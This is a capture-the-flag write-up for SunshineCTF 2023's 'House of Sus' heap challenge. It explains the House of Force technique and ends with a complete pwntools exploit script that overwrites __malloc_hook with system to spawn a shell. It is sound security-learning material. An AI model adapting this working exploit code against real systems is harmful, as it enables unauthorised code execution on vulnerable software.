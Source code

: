 ## Level: Easy

**TLDR:** create a chunk and overwrite the wilderness with a very large number due to an overflow. This will overlap the target address and resulting in write-what-where, which you can use it to overwrite malloc_hook with system to get a shell.  
  
### Checksec

![checksec](https://github.com/user-attachments/assets/b1f5f164-7791-4db8-80d0-da2e3aeca2af)

### Challenge
  
![menu](https://github.com/user-attachments/assets/24c5f22c-227d-488b-9446-7efe84d7e67e)

Very cool menu :D
We have a heap and a libc leak (option 2).

Also there is an overflow in option 3 so we can create a chunk then overwrite the wilderness (the top chunk's size) with a very large number (e.g. -1). This will make sure that malloc won't use `mmap` for any further allocations because it will think the top chunk has always *enough* space. And this will result in overlapping target address (write-what-where). 

### Approach 

```
1 - Use the overflow in `[3] Call an emergency meeting` to overwrite the wilderness with a very large number.
```

![newwilderness](https://github.com/user-attachments/assets/47fb63ae-68a5-46e8-b76c-bf89da5d1922)

```
2 - Calculate the address of wilderness and the target from the leaks
3 - Allocate a chunk with size of target - top_addr - 0x10 # for metadata
```

![overlapsize](https://github.com/user-attachments/assets/2cb9e4e7-8221-4398-a75d-f3bbffa74f19)


```
4 - Overwrite malloc_hook pointer (the target address) with system
```

![systemoverwrite](https://github.com/user-attachments/assets/f5518ba2-59f8-4808-99ed-6df30c7f0f5e)

```
5 - Call malloc with the address of "/bin/sh" as size to get a shell
```

![flag](https://github.com/user-attachments/assets/bc4a5ea9-72a6-487b-88b8-03b28a7dc0ef)


Calculating the offset for distance was quite painful until I get the hang of it. As always, following sources helped me understand this **House of Force** technique and eventually solve the challenge:

House of force: https://0x434b.dev/overview-of-glibc-heap-exploitation-techniques/#house-of-force

More about the house: https://book.hacktricks.xyz/binary-exploitation/libc-heap/house-of-force

c0nrad's writeup: https://youtu.be/qA6ajf7qZtQ?t=2277

offical(i guess) write up: https://github.com/SunshineCTF/SunshineCTF-2023-Public/blob/main/Pwn/House_of_Sus/house_of_sus_exp.py

get the challenge from: https://github.com/SunshineCTF/SunshineCTF-2023-Public/tree/main/Pwn/House_of_Sus

Thank you to all of them and the author for this cool challenge!

### Full Exploit
```python
#!/usr/bin/env python

from pwn import *
import time
"""
p = gdb.debug("./house_of_sus_patched", gdbscript='''
    c
''')
"""
p = process("./house_of_sus_patched")

def emergency_meeting(size, response, imposter):
    p.sendline(b"3")
    p.recvuntil(b"tasks >:(\n\n")
    p.sendline(str(size).encode('utf-8'))
    time.sleep(0.5)
    p.sendline(response)
    
    time.sleep(0.5)
    p.sendline(str(imposter).encode('utf-8'))

def do_task():
    p.sendline(b"1")

def report_body(imposter):
    p.sendline(b"2")
    p.recvuntil(b"the seed: ")
    libc_leak = int(p.recvline().strip())
    print("LIBC LEAK:" + hex(libc_leak))
    time.sleep(0.5)
    p.sendline(str(imposter).encode('utf-8'))
    return libc_leak

p.recvuntil(b"joining game: ")

heap_leak = int(p.recvline().strip(), 16)
print("HEAP LEAK: " + hex(heap_leak))

# libc leak thanks to seed in report_body option
p.recvuntil(b"emergency meeting\n\n")
libc_leak = report_body(1)

libc_base = libc_leak - 279440
malloc_hook = libc_base + 4111408
system = libc_base + 324640
binsh = libc_base + 1785224

print("malloc_hook: " + hex(malloc_hook))
print("binsh: " + hex(binsh))

# overwrite the wilderness with "-1"
# so it will overlap the target on the next malloc 
payload = b"A" * 40
payload += p64(0xFFFFFFFFFFFFFFFF)
p.recvuntil(b"emergency meeting\n\n")
emergency_meeting(40, payload, 1)

# calculate where the top chunk size (the wilderness) is 
heap_addr = heap_leak + 88 + 4112

# calculate the distance for malloc_hook
# allocate a chunk with a size of to the distance for malloc_hook
distance = malloc_hook - heap_addr - 0x10  # 0x10 for the metadata 
payload = b"B" * 8
p.recvuntil(b"emergency meeting\n\n")
emergency_meeting(distance, payload, 1)

# overwrite malloc_hook pointer with system
payload = p64(system)
payload += b"C" * 8
p.recvuntil(b"emergency meeting\n\n")
emergency_meeting(30, payload, 1)

# call malloc with "/bin/sh" in size
payload = b'whoami'
binsh = int(binsh)
p.recvuntil(b"emergency meeting\n\n")
emergency_meeting(binsh, payload, 1)

p.interactive()
```
![yay](https://tokyoking.github.io/assets/gifs/easy.gif)
